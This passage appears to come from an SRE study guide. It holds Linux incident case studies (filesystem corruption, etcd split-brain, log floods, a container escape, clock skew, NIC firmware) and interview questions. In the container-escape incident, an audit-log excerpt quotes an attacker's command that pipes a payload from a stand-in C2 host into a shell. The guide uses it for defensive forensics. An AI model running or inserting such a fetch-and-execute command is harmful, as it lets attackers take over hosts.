1. Disabled auto-scaler temporarily to stop the replacement cycle
2. Manually restarted instances in batches of 5 with 60-second delays between batches
3. Pre-warmed caches by sending synthetic traffic before adding instances to the load balancer

**Prevention:**
- Implement rolling restart in Ansible: `serial: 5` with `pause: 60`
- Add startup probe in Kubernetes (or HAProxy slow-start) that marks instances healthy only after cache warming completes
- Configure exponential backoff with jitter on all retry logic (clients and inter-service)
- Implement graceful shutdown: drain connections for 30 seconds before stopping
- Use HAProxy `slowstart 60s` to gradually ramp traffic to newly healthy backends
- Pre-warm caches as part of readiness check, not after traffic starts flowing

---

### Incident 5: Silent Data Corruption from Filesystem Bug

**Subsystems:** Filesystem & Storage (Topic 04)

**Context:** A fleet of storage servers running XFS on RAID-6 arrays, serving as a distributed object store. Kernel version 5.4.x with a known (but not yet publicly disclosed) bug in XFS extent allocation during low free-space conditions.

**Symptoms:**
- No alerts fire initially -- the corruption is silent
- A weekly data integrity audit (checksum verification) detects 847 objects with mismatched checksums
- Affected objects are scattered across 12 hosts, all running the same kernel version
- All affected hosts have filesystem utilization between 92% and 97%
- The corruption is bitwise: files are the correct size but contain incorrect data in specific extent regions

**Investigation:**

```bash
# Verify the corruption
md5sum /data/objects/abc123                # Does not match stored checksum
xxd /data/objects/abc123 | head -20        # Visual inspection of bytes

# Check filesystem health
xfs_repair -n /dev/md0                     # Dry-run: reports inconsistencies
# Phase 3 - ...
# entry "abc123" in dir inode 12345 has mismatched extent info

# Check kernel version
uname -r                                   # 5.4.210
# Cross-reference with kernel changelog -- known XFS bug fixed in 5.4.224

# Check filesystem utilization at time of corruption (from monitoring)
# All affected hosts were > 92% full when writes occurred

# Check RAID health (rule out hardware)
cat /proc/mdstat                           # md0 : active raid6 [...] [8/8] [UUUUUUUU]
smartctl -a /dev/sd[a-h] | grep -E "Reallocated|Current_Pending"  # All zeros

# Check for XFS errors in logs
dmesg -T | grep -i xfs
journalctl -k | grep -i "xfs\|corrupt\|error"
# No explicit errors logged -- this is the "silent" part
```

**Root Cause:** XFS kernel bug in extent allocation under low free-space conditions. When the filesystem was above 90% utilization, the allocator could, under specific race conditions, assign an extent that overlapped with a recently freed extent that had not yet been fully committed to the journal. This resulted in data from one file being written to blocks belonging to another file. The bug was fixed in upstream kernel 5.4.224 but the fleet was running 5.4.210.

**Fix (Immediate):**
1. Triggered rebalancing to reduce filesystem utilization to below 85% on all hosts
2. Restored the 847 corrupted objects from the object store's replication tier
3. Scheduled kernel upgrade to 5.4.224+ across the fleet

**Prevention:**
- Maintain filesystem utilization alerts at 85% (warn) and 90% (critical) -- do not allow production writes above 90%
- Run data integrity checksums continuously (not just weekly) using background scrubbing
- Subscribe to linux-kernel and filesystem-specific mailing lists for early bug reports
- Implement end-to-end checksumming at the application layer (not relying solely on filesystem integrity)
- Consider ZFS or Btrfs for storage workloads where built-in checksumming detects silent corruption
- Pin kernel versions and test upgrades in staging before fleet rollout; do not lag more than 2 minor versions behind

---

### Incident 6: Network Partition Causing Split-Brain in Distributed System

**Subsystems:** Networking (Topic 06) + System Design

**Context:** A 5-node etcd cluster providing configuration and leader election for a microservices platform. The cluster runs across 3 availability zones. A network partition isolates 2 nodes (AZ-C) from the other 3 (AZ-A + AZ-B).

**Symptoms:**
- Monitoring shows etcd cluster health degrades: 2 nodes report "cluster unhealthy"
- The 3-node majority partition (AZ-A + AZ-B) elects a new leader and continues operating
- Services in AZ-C lose connectivity to etcd; some services have stale configuration
- A legacy service in AZ-C uses an older client library that does not properly handle partition -- it continues writing to the 2-node minority partition, which accepts writes locally
- After partition heals, conflicting writes are discovered between the two partitions

**Investigation:**

```bash
# Check etcd cluster health
etcdctl endpoint health --cluster
# https://etcd-1:2379 is healthy (AZ-A)
# https://etcd-2:2379 is healthy (AZ-A)
# https://etcd-3:2379 is healthy (AZ-B)
# https://etcd-4:2379 is unhealthy (AZ-C) -- leader not found
# https://etcd-5:2379 is unhealthy (AZ-C) -- leader not found

# Verify network partition
ping -c 3 etcd-4.internal                 # From AZ-A: 100% packet loss
traceroute etcd-4.internal                 # Packets die at AZ-C border router
mtr -rn etcd-4.internal                   # Loss at hop 5 (inter-AZ link)

# Check etcd logs on AZ-C nodes
journalctl -u etcd | grep "raft"
# "lost leader", "election timeout", "failed to reach quorum"

# Check the legacy service behavior
journalctl -u legacy-config-writer | grep "etcd"
# "connected to etcd-4:2379"  <-- writing to minority partition!
# "put key /config/feature-x value=enabled"
```

**Root Cause:** The network partition was caused by a BGP misconfiguration during a router maintenance window. The 3-node majority partition operated correctly per Raft consensus. The split-brain writes occurred because the legacy service's etcd client (v2 API) did not enforce quorum reads/writes and connected directly to a specific node rather than the cluster endpoint. The minority partition's etcd nodes accepted local writes that could not be replicated.

**Fix (Immediate):**
1. Identified and reverted the BGP configuration change that caused the partition
2. After partition healed, compared conflicting keys and manually resolved conflicts
3. Stopped the legacy service during resolution to prevent further inconsistency
4. Updated the legacy service's etcd client to use the v3 API with `--consistency=l` (linearizable reads)

**Prevention:**
- All etcd clients must use cluster-aware endpoints, never single-node connections
- Enforce linearizable reads (`--consistency=l`) for any configuration that affects service behavior
- Implement fencing tokens for any distributed locking to detect stale leaders
- Deploy etcd across odd numbers of failure domains (3 or 5) and alert on quorum loss immediately
- Pre-validate router maintenance changes in a lab topology before applying to production
- Run Jepsen-style partition tests quarterly against the etcd cluster

---

### Incident 7: Log Volume Explosion Filling Disk and Cascading to OOM

**Subsystems:** Filesystem & Storage (Topic 04) + Memory Management (Topic 03)

**Context:** A high-throughput event processing service running on hosts with 100 GiB root volumes. Application logs are written to `/var/log/app/` with logrotate configured for daily rotation with 7-day retention.

**Symptoms:**
- At 03:14 UTC, alerts fire: disk usage on 30 hosts crosses 95%
- By 03:22, disk usage reaches 100% on 18 hosts
- Application starts throwing `ENOSPC` (no space left on device) errors
- systemd-journald cannot write, starts dropping logs
- The database client library allocates unbounded retry buffers in memory when it cannot write error logs to disk
- OOM killer activates at 03:31, killing the application process
- Service is fully down across the 30-host fleet

**Investigation:**

```bash
# Check disk usage
df -h /
# /dev/sda1  100G  100G  0  100% /

# Find the largest files
du -sh /var/log/app/*
# 78G  /var/log/app/application.log     <-- ENORMOUS

# Check log rotation
ls -la /var/log/app/
# -rw-r--r-- 1 app app 78G Mar 15 03:14 application.log
# -rw-r--r-- 1 app app 1.2G Mar 14 00:00 application.log.1.gz
# Normal daily log size was 1.2G compressed (~8G uncompressed)

# What changed? Check the log content
tail -1000 /var/log/app/application.log | head -20
# 2026-03-15 02:48:12 ERROR [retry-pool-1] DBClient - Connection refused to db-primary:5432
# 2026-03-15 02:48:12 ERROR [retry-pool-1] DBClient - Connection refused to db-primary:5432
# 2026-03-15 02:48:12 ERROR [retry-pool-1] DBClient - Connection refused to db-primary:5432
# (same line repeated millions of times)

# Check the timeline
ls -la --time=ctime /var/log/app/application.log
# Rapid growth started at 02:48 -- correlates with database maintenance window

# Check memory situation
dmesg -T | grep -i "out of memory"
# [Mar 15 03:31:05] Out of memory: Killed process 2341 (java)
# oom_score_adj: 0, total-vm: 8388608kB, anon-rss: 7340032kB

# Why is memory growing even after disk is full?
# The retry buffer in the DB client library buffers failed writes in memory
# when it cannot flush to the error log file
```

**Root Cause:** A planned database maintenance window at 02:45 caused the database to reject connections. The application's database client library logged every failed connection attempt at ERROR level with a retry interval of 10ms. At approximately 100 connection threads retrying every 10ms, this generated ~10,000 log lines per second, each approximately 200 bytes. Over 26 minutes: `10,000 * 200 * 60 * 26 = ~31 GiB` of raw log data. Combined with the existing daily log, this filled the 100 GiB disk. The secondary failure was the DB client library's in-memory write buffer that grew unboundedly when disk writes failed, consuming all available memory and triggering the OOM killer.

**Fix (Immediate):**
1. Truncated the bloated log file: `truncate -s 0 /var/log/app/application.log`
2. Restarted the application service
3. Set rate limiting on the log appender: max 100 lines/second per logger

**Prevention:**
- Configure rate-limited logging in the application framework (e.g., Log4j2 `BurstFilter`, logback `TurboFilter`)
- Place `/var/log` on a separate partition so log explosion cannot fill the root filesystem
- Set filesystem quotas or use a dedicated log volume with cgroup I/O limits
- Configure logrotate with size-based rotation (`maxsize 1G`) in addition to time-based rotation
- Add `maxretries` and exponential backoff to database client retry logic
- Alert on log file growth rate, not just absolute size: >100 MiB/hour should trigger investigation
- Ensure the application handles `ENOSPC` gracefully without unbounded memory allocation

---

### Incident 8: Container Escape via Kernel Vulnerability

**Subsystems:** Security (Topic 09) + Kernel Internals (Topic 07) + Containers

**Context:** A multi-tenant Kubernetes cluster running workloads for 12 internal teams. The cluster runs kernel 5.15.x. CVE-2025-21756 is publicly disclosed -- a use-after-free vulnerability in the vsock subsystem allowing container escape and host root access.

**Symptoms:**
- Security team receives threat intelligence alert about active exploitation of CVE-2025-21756
- Audit logs show suspicious `CAP_NET_RAW` usage from a pod in the `data-science` namespace
- Host-level audit logs reveal unexpected process execution outside container namespaces
- A process on the host is running as UID 0 that does not belong to any known service

**Investigation:**

```bash
# Check for exploit indicators on the host
ausearch -m EXECVE -ts today | grep -v "known_service"
# type=EXECVE msg=audit(1710500000.456:789): argc=3
#   a0="/bin/sh" a1="-c" a2="curl http://c2server.evil/payload | sh"

# Check process tree
pstree -palun | grep -B5 "curl\|sh.*c2"
# The malicious process is NOT inside any container namespace

# Verify container escape
nsenter -t <suspicious_pid> -m -p -- cat /proc/1/cgroup
# Returns HOST cgroup, not container cgroup -- confirmed escape

# Check which pod was the source
crictl pods | grep data-science
crictl inspect <pod_id> | grep -i "securityContext"
# privileged: false, but CAP_NET_RAW was not dropped

# Check kernel version
uname -r                                  # 5.15.89 -- vulnerable
# CVE-2025-21756 fixed in 5.15.103

# Check if vsock module is loaded
lsmod | grep vsock                         # vsock loaded
# The exploit targets the vsock subsystem

# Review audit trail for the escape
ausearch -m ANOM_ABEND -ts today
ausearch -m SYSCALL -k container_escape    # If audit rules were in place
```



**Root Cause:** CVE-2025-21756 is a use-after-free vulnerability in the Linux kernel's vsock subsystem. An attacker with `CAP_NET_RAW` (which many Kubernetes configurations grant by default) can trigger the UAF, gain arbitrary kernel read/write, overwrite their own credentials to root, and escape the container namespace. The cluster had not been patched, and the default pod security did not drop `CAP_NET_RAW`.

**Fix (Immediate):**
1. Isolated the compromised node: `kubectl cordon <node> && kubectl drain <node>`
2. Captured forensic image of the node before remediation
3. Terminated the malicious process and investigated lateral movement
4. Applied kernel patch (5.15.103+) across the fleet with emergency rolling reboot
5. Rotated all secrets that may have been accessible from the compromised node

**Prevention:**
- Drop `CAP_NET_RAW` from all pods that do not explicitly require it (Pod Security Standards: `restricted` profile)
- Enforce seccomp profiles that block unnecessary syscalls (including `socket(AF_VSOCK, ...)`)
- Deploy a runtime security tool (Falco, Sysdig, Tetragon) that alerts on unexpected host-level process execution
- Subscribe to kernel CVE feeds and maintain a <72-hour patch SLA for critical CVEs
- Use `gVisor` or `Kata Containers` for untrusted workloads to provide kernel-level isolation
- Implement network policies to prevent pod egress to external IPs by default
- Blacklist unused kernel modules: `echo "install vsock /bin/true" >> /etc/modprobe.d/security.conf`

---

### Incident 9: Clock Skew Causing Distributed System Inconsistency

**Subsystems:** Fundamentals (Topic 00) + Networking (Topic 06)

**Context:** A distributed event processing system using Apache Kafka for event streaming and Cassandra for state storage. Events are ordered by wall-clock timestamp. NTP is configured on all hosts but managed inconsistently across the fleet.

**Symptoms:**
- Data team reports events appearing "out of order" in Cassandra queries
- Some events have timestamps 5-7 minutes in the future
- Kafka consumer lag spikes intermittently -- consumers reject events with future timestamps
- Certificate-based authentication between microservices starts failing with "certificate not yet valid" errors
- Distributed tracing (Jaeger) shows impossible negative-duration spans

**Investigation:**

```bash
# Check NTP synchronization
chronyc tracking
# Reference ID    : 00000000 ()
# Stratum         : 0           <-- NOT SYNCHRONIZED
# Ref time (UTC)  : Thu Jan 01 00:00:00 1970
# System time     : 423.456789 seconds fast of NTP time  <-- 7 MINUTES AHEAD

# Check chrony sources
chronyc sources -v
# ^? ntp1.internal     0   0   0     0   +0ns[+0ns]  +/-  0ns
# ^? ntp2.internal     0   0   0     0   +0ns[+0ns]  +/-  0ns
# All sources unreachable

# Check NTP connectivity
ping -c 3 ntp1.internal                   # 100% packet loss
# Firewall rule blocking NTP?
iptables -L -n | grep 123
# REJECT udp -- 0.0.0.0/0 0.0.0.0/0 udp dpt:123  <-- NTP BLOCKED

# Check when firewall rule was added
journalctl -u iptables --since "7 days ago" | grep 123
# Mar 08: Added rule to block UDP 123 (ticket SEC-4421: "block all UDP")

# Check fleet-wide clock status
for h in host{1..50}; do ssh $h "chronyc tracking | grep 'System time'" ; done
# Hosts show clock offsets ranging from -3s to +423s
```

**Root Cause:** A security team member applied a firewall rule to "block all unnecessary UDP traffic" (ticket SEC-4421) as part of a hardening initiative. The rule blocked UDP port 123 (NTP). Without NTP synchronization, host clocks drifted independently. Hosts with newer hardware had more accurate RTCs and drifted slowly; older hosts with less accurate oscillators drifted by minutes within a week. The security change was applied incrementally across the fleet, causing inconsistent clock states.

**Fix (Immediate):**
1. Removed the iptables rule blocking UDP 123 on all hosts
2. Force-synchronized clocks: `chronyc makestep` on each host
3. Verified synchronization: `chronyc tracking` showing stratum > 0 and offset < 10ms
4. Reprocessed the affected events in Kafka with corrected timestamps

**Prevention:**
- Use `chrony` (not `ntpd`) with multiple NTP sources and monitor NTP offset as an SLI
- Alert when any host's NTP offset exceeds 100ms or when stratum drops to 0
- Treat NTP ports (UDP 123, or NTS on TCP 4460) as critical infrastructure -- firewall rules must explicitly allowlist them
- Require change review for any firewall rule modification that affects infrastructure services
- Use logical timestamps (Lamport clocks, vector clocks) or hybrid logical clocks (HLC) in distributed systems instead of wall-clock ordering
- Run `chronyc sourcestats` in monitoring to detect NTP source health degradation

---

### Incident 10: NIC Firmware Bug Causing Intermittent Packet Loss

**Subsystems:** Networking (Topic 06) + Debugging (Topic 08)

**Context:** A fleet of bare-metal servers with Intel X710 NICs. After a firmware update pushed as part of quarterly maintenance, approximately 15% of hosts begin exhibiting intermittent packet loss.

**Symptoms:**
- Application-level monitoring shows intermittent 502 errors and elevated latency on 15% of hosts
- The pattern is not consistent: a host may be fine for 20 minutes, then lose 5-10% of packets for 30 seconds, then recover
- TCP retransmission rates spike during the loss periods
- `ping` between affected hosts and healthy hosts shows intermittent loss
- Network team reports "no issues" from switch-side monitoring

**Investigation:**

```bash
# Confirm packet loss at the NIC level
ethtool -S eth0 | grep -E "rx_dropped|rx_missed|rx_errors|rx_crc"
# rx_missed_errors: 47823        <-- NIC is dropping packets in hardware
# rx_crc_errors: 0               <-- Not a cable/signal issue
# rx_dropped: 47823

# Compare with a healthy host
ethtool -S eth0 | grep rx_missed_errors
# rx_missed_errors: 0

# Check NIC firmware version
ethtool -i eth0
# driver: i40e
# version: 2.23.17
# firmware-version: 9.20 0x8000d95e 22.0.9   <-- Recently updated

# Compare firmware on healthy vs affected hosts
# Affected: firmware-version: 9.20
# Healthy:  firmware-version: 9.10 (not yet updated)

# Check NIC ring buffer -- are we overflowing?
ethtool -g eth0
# RX: 4096 (configured) / 4096 (max)  <-- Already at max

# Check interrupt coalescing
ethtool -c eth0
# rx-usecs: 3
# adaptive-rx: on

# Monitor in real time
watch -n 1 "ethtool -S eth0 | grep rx_missed"
# Counter increments in bursts during traffic spikes

# Check kernel messages
dmesg -T | grep -i "i40e\|eth0"
# [Mar 15 10:23:45] i40e: eth0: rx ring 3 is in unusual state

# Run iperf3 to stress test
iperf3 -c peer-host -t 60 -P 8
# Retransmissions: 4,821 (vs 0 on healthy hosts)
```

**Root Cause:** The firmware version 9.20 for the Intel X710 NIC introduced a regression in the receive-side scaling (RSS) hash computation. Under specific traffic patterns (high rate of small packets with certain TCP flag combinations), the RSS hash function distributed packets unevenly, causing one or two RX queues to overflow while others were idle. The `rx_missed_errors` counter confirmed that the NIC was dropping packets before they reached the kernel. The bug only manifested under load, explaining the intermittent pattern.

**Fix (Immediate):**
1. Rolled back NIC firmware to 9.10 on affected hosts: `nvmupdate64e -u -l -o install -b -c nvmupdate.cfg`
2. As a temporary workaround on hosts that could not be immediately rolled back, disabled RSS and used a single RX queue: `ethtool -L eth0 combined 1` (trading multi-queue performance for correctness)

**Prevention:**
- Canary firmware updates: roll out to 1% of fleet, soak for 72 hours with traffic, then proceed
- Monitor NIC error counters (`ethtool -S`) as a standard SLI -- alert on any non-zero `rx_missed_errors` or `rx_crc_errors`
- Include NIC firmware version in fleet inventory and track it alongside kernel version
- Run network performance regression tests (`iperf3`, `netperf`) after firmware changes
- Maintain the ability to roll back firmware independently of other maintenance
- Subscribe to vendor firmware release notes and errata

---

### Incident 11: Zombie Process Accumulation Exhausting PID Space (Bonus)

**Subsystems:** Process Management (Topic 01) + Kernel Internals (Topic 07)

**Context:** A CI/CD build server spawning thousands of short-lived build containers per hour. Each container runs a build script that spawns multiple child processes.

**Symptoms:**
- Build jobs start failing with `fork: retry: Resource temporarily unavailable`
- `ps aux | wc -l` shows 32,768 entries (equal to `kernel.pid_max`)
- Most processes are in `Z` (zombie) state
- The system is not under memory or CPU pressure

**Investigation:**

```bash
ps -eo stat,pid,ppid,cmd | grep "^Z" | wc -l
# 31,204 zombie processes

# Who is the parent?
ps -eo stat,pid,ppid,cmd | grep "^Z" | awk '{print $3}' | sort | uniq -c | sort -rn | head
# 31204  1       <-- All zombies reparented to PID 1 (init/systemd)

# This means the original parent died without wait()ing on children
# Check the container runtime
crictl ps -a | grep -c "Exited"
# 4,821 exited containers

# The container runtime's shim process is not reaping zombies
# In this case, the container uses a shell script as PID 1 (no init)
cat /proc/<container_pid>/status | grep Zombie
```

**Root Cause:** The build containers used a shell script as PID 1 without an init system. When the shell script's child processes exited, they became zombies because the shell script did not call `wait()`. When the container itself exited, the zombies were reparented to the host's PID 1 (systemd). However, because the container runtime's shim had already exited, systemd could not properly reap these zombies (they were in a different PID namespace that had been torn down but the zombie entries persisted in the host PID table).

**Fix (Immediate):**
1. Reaped zombies by restarting the container runtime: `systemctl restart containerd`
2. Increased `kernel.pid_max` temporarily: `sysctl -w kernel.pid_max=131072`

**Prevention:**
- Use `tini` or `dumb-init` as PID 1 in all containers to properly reap child processes
- Set `kernel.pid_max=131072` (or higher) on build servers
- Monitor zombie process count as an SLI: alert when count exceeds 100
- Configure the container runtime to clean up exited containers automatically (`--rm` flag or garbage collection policy)

---

## 6. Interview Questions

### Behavioral Incident Questions

#### Q1: Describe a time you led incident response for a P1 outage. What was your decision-making process?

- **Structured response framework (STAR):**
  1. **Situation:** Identify the service, scale of impact, and when you were engaged
  2. **Task:** Your specific role (Incident Commander, on-call, SME) and what decisions fell to you
  3. **Action:** Walk through the timeline:
     - How you triaged: checked monitoring dashboards, identified the blast radius
     - How you communicated: opened the incident channel, posted status updates every 30 minutes
     - How you chose mitigation over root cause: rolled back the deployment first, investigated later
     - How you coordinated: pulled in the database team when you identified the dependency
  4. **Result:** Time to mitigate, user impact, and the post-mortem outcomes
- **Key signals interviewers look for:**
  - Calm under pressure -- did you follow the runbook or panic?
  - Clear communication -- did you keep stakeholders informed with accurate, non-speculative updates?
  - Bias toward action -- did you make decisions with incomplete information?
  - Blameless mindset -- do you describe systemic failures or blame individuals?

---

#### Q2: How do you conduct a blameless post-mortem? What makes a post-mortem effective?

- **Structure of an effective post-mortem:**
  1. **Timeline:** Minute-by-minute reconstruction of events from detection to resolution
  2. **Root cause analysis:** Use "5 Whys" or fault tree analysis -- go beyond the proximate cause
  3. **Contributing factors:** What monitoring gaps, process failures, or architectural weaknesses allowed this?
  4. **Impact assessment:** Duration, number of users affected, revenue impact, SLO budget consumed
  5. **Action items:** Each item is specific, assigned to an owner, has a deadline, and is tracked to completion
  6. **Lessons learned:** What went well (what prevented it from being worse) and what did not go well

- **Blameless means:**
  - Focus on systems, not individuals: "The deployment pipeline lacked a canary phase" not "John deployed without testing"
  - Assume people acted rationally given the information they had at the time
  - Separate the decision from the outcome -- a good decision with a bad outcome is different from a bad decision
  - Make it safe to report mistakes by rewarding transparency, not punishing the messenger

- **What makes it effective:**
  - Action items are actually tracked and completed (not just written and forgotten)
  - The post-mortem is shared broadly (other teams learn from your incidents)
  - Repeat incidents are flagged -- if the same class of failure happens twice, the first post-mortem's action items were insufficient

---

#### Q3: How do you decide between mitigating immediately vs. investigating root cause during an incident?

- **Always mitigate first.** The hierarchy is:
  1. **Mitigate user impact** (rollback, failover, traffic shed, feature flag disable) -- target: MTTM under 15 minutes
  2. **Stabilize the system** (ensure the mitigation is durable, not a band-aid that will fail in 10 minutes)
  3. **Investigate root cause** (only after mitigation is confirmed stable)

- **The exception:** If mitigation risks data corruption or data loss, investigation may be warranted before action
  - Example: If rolling back a database migration might lose writes, you need to understand the state before acting

- **Decision framework:**
  - If a recent deployment is the most likely cause and rollback is safe: roll back immediately, investigate later
  - If the cause is unknown: apply the most reversible mitigation (drain traffic, disable feature flag) and investigate in parallel
  - If the system is self-healing (auto-scaler replacing unhealthy nodes): monitor for 5 minutes before intervening -- intervention can make auto-healing worse

---

#### Q4: How do you manage on-call burnout while maintaining incident readiness?

- **Structural approaches:**
  1. Minimum team size: 8 engineers per on-call rotation (ensures no one is on-call more than 1 week in 8)
  2. Follow-the-sun rotations for globally distributed teams (no one is paged at 3 AM regularly)
  3. Compensatory time off: every on-call week earns a day of time off
  4. Clearly defined escalation paths: on-call should not be the single point of failure

- **Technical approaches:**
  1. Reduce toil: automate common incidents (auto-remediation for known failure modes)
  2. Improve monitoring: reduce false positives aggressively -- every false page erodes trust in the system
  3. Invest in runbooks: clear, tested runbooks reduce cognitive load during incidents
  4. Error budget policy: if on-call load is unsustainable, freeze features and invest in reliability

- **Cultural approaches:**
  1. Track on-call interrupt rate as a team metric (pages per week, off-hours pages per month)
  2. Review on-call handoff notes at weekly team meetings
  3. Celebrate reliability improvements that reduce page volume

---

### Technical Incident Questions

#### Q5: Walk through how you would diagnose a cascading OOM failure across a microservice fleet.

1. **Identify the blast radius:** Check monitoring for which services are OOMing and the timeline of when each started
2. **Check dependency graph:** Use the service mesh or tracing system to identify the upstream dependency that triggered the cascade
3. **On an affected pod:**
   - `dmesg -T | grep "Out of memory"` -- confirm OOM kills and see which process was killed
   - `cat /sys/fs/cgroup/memory/memory.stat` -- check RSS, cache, swap usage within the cgroup
   - `ss -tnp | wc -l` -- count open connections (connection pileup is a common memory leak trigger)
4. **Check the downstream dependency:** Is it slow (causing request queues to back up in memory) or down (causing retry loops)?
5. **Calculate the memory budget:** `(concurrent_requests * memory_per_request) + baseline_heap + metaspace + thread_stacks` -- does this exceed the cgroup limit under the current failure conditions?
6. **Mitigate:**
   - Enable circuit breakers to shed load from the failing dependency
   - Reduce client timeouts to release connection memory faster
   - Apply backpressure (rate limiting) at the entry point

---

#### Q6: A host has high load average but low CPU utilization. What is happening and how do you investigate?

- **High load average with low CPU utilization indicates processes are in uninterruptible sleep (D state):**
  1. `vmstat 1 5` -- check the `b` column (blocked processes) and `wa` column (I/O wait)
  2. `ps aux | awk '$8 ~ /D/ {print}'` -- list processes in D state
  3. `cat /proc/<pid>/stack` -- check the kernel stack of a D-state process to see what it is waiting on
  4. `iostat -xz 1 3` -- check `await` (I/O latency) and `%util` (device saturation)
  5. `dmesg -T | grep -i "error\|reset\|timeout"` -- check for disk or storage controller errors

- **Common causes:**
  - Failing disk with high I/O latency (check `smartctl -a /dev/sdX`)
  - NFS server unresponsive (processes blocked in `nfs4_call_sync`)
  - Disk I/O saturation from a write storm (check `iotop`)
  - Kernel bug causing processes to get stuck in D state permanently

---

#### Q7: Explain how you would design SLIs and SLOs for a payment processing service.

- **SLIs (what to measure):**
  1. **Availability SLI:** Proportion of payment requests that return a definitive response (success or known failure) vs. timeout/5xx
  2. **Latency SLI:** p50, p95, p99 of end-to-end payment processing time (measured from the client's perspective, not the server's)
  3. **Correctness SLI:** Proportion of payments where the debit amount matches the authorized amount (detects silent data corruption)
  4. **Durability SLI:** Proportion of committed payment records that are retrievable 24 hours later

- **SLOs (what to target):**
  1. Availability: 99.99% (4.38 min/month downtime) -- payment is critical path
  2. Latency: p99 < 500ms, p50 < 100ms over 30-day window
  3. Correctness: 100% (zero tolerance -- any correctness failure is a SEV1)
  4. Durability: 99.999999% (eight nines -- payment records must not be lost)

- **Error budget policy:**
  - Budget > 50%: ship features, run chaos tests
  - Budget < 25%: feature freeze, all engineering effort goes to reliability
  - Budget exhausted: mandatory post-mortem, executive review, no deployments until budget recovers

---

#### Q8: How does the Linux OOM killer decide which process to kill? How would you influence its decision?

- **OOM killer scoring:**
  1. Kernel computes `oom_score` for each process based on: RSS memory usage, process age, CPU time, nice value
  2. Higher `oom_score` = more likely to be killed
  3. `oom_score_adj` (-1000 to +1000) modifies the score: -1000 exempts from OOM killing, +1000 makes it the first target
  4. Check scores: `cat /proc/<pid>/oom_score` and `cat /proc/<pid>/oom_score_adj`

- **Influencing the decision:**
  1. Protect critical services: `echo -1000 > /proc/<pid>/oom_score_adj` (or set `OOMScoreAdjust=-1000` in the systemd unit)
  2. Sacrifice known expendable processes: `echo 1000 > /proc/<pid>/oom_score_adj` for cache warmers, batch jobs
  3. Use cgroup memory limits with `oom_kill_disable=0` to isolate the blast radius to a specific cgroup
  4. Set `vm.panic_on_oom=1` on critical hosts where OOM killing any process is unacceptable (host will reboot instead)

- **In Kubernetes:**
  - QoS classes control OOM priority: `Guaranteed` > `Burstable` > `BestEffort`
  - Set `resources.requests == resources.limits` for critical pods to get `Guaranteed` QoS
  - `BestEffort` pods (no resource requests) are always killed first

---

#### Q9: You discover 0.01% of reads from your storage cluster return corrupted data. Walk through your investigation.

1. **Quantify:** Confirm the corruption rate with your integrity audit system; identify affected hosts, time range, and data pattern
2. **Rule out application-level corruption:** Check if the application is writing correctly (compare source data with stored data immediately after write)
3. **Check storage hardware:**
   - `smartctl -a /dev/sdX` -- check for `Reallocated_Sector_Ct`, `Current_Pending_Sector`, `Offline_Uncorrectable`
   - `cat /proc/mdstat` -- RAID array health (degraded array?)
   - `megacli -LDInfo -Lall -aAll` -- RAID controller cache and BBU status
4. **Check filesystem integrity:**
   - `xfs_repair -n /dev/sdX` or `e2fsck -fn /dev/sdX` -- dry-run filesystem check
   - Check kernel version against known filesystem bugs
   - `dmesg -T | grep -i "error\|corrupt\|checksum"` -- any filesystem-level complaints?
5. **Check for bit-rot:**
   - If using XFS/ext4: no built-in data checksumming -- corruption is silent
   - If using ZFS/Btrfs: `zpool scrub` or `btrfs scrub` will detect and report errors
6. **Check memory (ECC errors can cause data corruption during writes):**
   - `edac-util -s` -- check ECC memory error counters
   - `cat /var/log/mcelog` -- machine check exceptions
7. **Network-layer corruption (if data traverses network before storage):**
   - TCP checksums are weak (16-bit) -- can miss certain corruption patterns
   - Check for NIC errors: `ethtool -S eth0 | grep error`

---

#### Q10: Explain the difference between MTTD, MTTM, MTTR, and MTBF. Which one matters most for SRE?

- **MTTD (Mean Time to Detect):** Average time from when an incident begins to when the team becomes aware
  - Reduced by: better monitoring, tighter SLO alerting, synthetic probes
- **MTTM (Mean Time to Mitigate):** Average time from detection to user impact being resolved
  - Reduced by: runbooks, automation, rollback capabilities, circuit breakers
- **MTTR (Mean Time to Recover/Resolve):** Average time from detection to full resolution (root cause fixed, not just mitigated)
  - Reduced by: faster post-mortems, better tooling, architectural improvements
- **MTBF (Mean Time Between Failures):** Average time between incidents
  - Increased by: chaos engineering, better testing, architectural redundancy

- **Which matters most:** MTTM. Users care about when the pain stops, not when you fully understand why it happened. An SRE team that consistently achieves sub-15-minute MTTM is far more effective than one that prevents incidents but takes hours to mitigate when one occurs.

---

#### Q11: How would you implement a circuit breaker pattern to prevent cascading failures?

1. **States:** Closed (normal), Open (failing -- reject calls), Half-Open (testing recovery)
2. **Closed -> Open:** When failure count exceeds threshold within a time window (e.g., 50% failures in 10 seconds)
3. **Open behavior:** Return a fallback response immediately without calling the downstream service. Start a timeout timer (e.g., 30 seconds)
4. **Open -> Half-Open:** After the timeout expires, allow a single probe request through
5. **Half-Open -> Closed:** If the probe succeeds, reset failure count and resume normal traffic
6. **Half-Open -> Open:** If the probe fails, restart the timeout timer

- **Implementation considerations:**
  - Per-destination circuit breakers (not global) -- one failing endpoint should not break all endpoints
  - Combine with retry logic: retries happen inside the circuit breaker, not outside
  - Fallback must be meaningful: cached data, degraded response, graceful error -- not a generic 500
  - Monitor circuit breaker state as an SLI: frequent Open states indicate a reliability problem

---

#### Q12: A distributed trace shows that a service call took 2 seconds, but the downstream service's logs show it responded in 5ms. Where is the 1,995ms?

- **Systematic investigation:**
  1. **Network latency:** `ping` and `traceroute` between the two hosts -- check for loss or high RTT
  2. **Connection establishment:** Was a new TCP connection created (3-way handshake) vs. connection pool reuse? Check: `ss -tnp` for connection state, application connection pool metrics
  3. **DNS resolution:** Did the client resolve the service hostname? Check: `strace -e trace=network -T` for `getaddrinfo` duration
  4. **Load balancer queuing:** Is the request queuing at an intermediary (HAProxy, Envoy)? Check: proxy access logs for upstream response time vs. total time
  5. **Client-side queuing:** Is the client's thread pool saturated, causing requests to queue before being sent? Check: thread pool metrics, `jstack` to see blocked threads
  6. **Kernel TCP buffers:** Is the socket send buffer full, causing the write to block? Check: `ss -tnp -m` for `Snd` buffer usage
  7. **Garbage collection:** Did a GC pause on either side add latency? Check: GC logs for stop-the-world pauses around the timestamp
  8. **Clock skew:** Are the two hosts' clocks synchronized? If not, the trace timestamps are unreliable (see Incident 9)

---

#### Q13: How do you differentiate between a slow network and a slow application when users report "the site is slow"?

- **Layer-by-layer isolation:**
  1. **Client-side:** Browser developer tools Network tab -- check TTFB (Time to First Byte) vs. content download time
     - High TTFB, fast download = slow application (server processing time)
     - Low TTFB, slow download = slow network (bandwidth constrained)
  2. **Load balancer:** Check upstream response time in LB access logs
